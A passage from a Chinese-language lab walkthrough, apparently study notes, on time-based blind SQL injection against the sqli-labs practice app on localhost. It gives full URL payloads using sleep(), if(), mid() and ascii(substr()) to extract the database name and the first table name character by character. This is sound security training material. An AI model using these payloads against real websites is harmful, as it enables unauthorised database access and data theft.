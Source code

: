 #### 猜解数据库名第2个字符

`http://localhost/pentest/sqlilabs/Less-2/?id=1 and sleep(if((mid(database(),2,1)='e'),5,0))--+`

延时5秒后显示完毕，说明数据库名第二个字母为e

![](https://gitee.com/YatJay/image/raw/master/img/202202112254807.png)

依次猜解得到数据库名为`security`

### 猜解第一张表的表名长度

`http://localhost/pentest/sqlilabs/Less-2/?id=1 and if((select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6,sleep(5),0)--+`

**注意**：length()要加在要查询的字段名之外，不能加在整个select语句之外

延时5秒后显示完毕，说明数据库下的第一张表的表名长度为6

![](https://gitee.com/YatJay/image/raw/master/img/202202112325314.png)

### 猜解第一张表表名

#### 猜解表名第二个字符

`http://localhost/pentest/sqlilabs/Less-2/?id=1 and if((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109),sleep(5),0)--+`

注意：括号嵌套较多，最里面的括号往往意味着最高的优先级，所以一定要将`select table_name from information_schema.tables where table_schema=database() limit 0,1`加上一层括号，保证这句先执行成功之后再对查询结果记录做截取、ASCII编码操作，一定注意括号。

可知表名的第二个字符的ASCII码是109也就是m

![](https://gitee.com/YatJay/image/raw/master/img/202202112335260.png)

依次得到数据库中第一张表的表名为`emails`

### 猜解表名之下的列名

略

## sqlilabs-less46注入测试(排序盲注)




















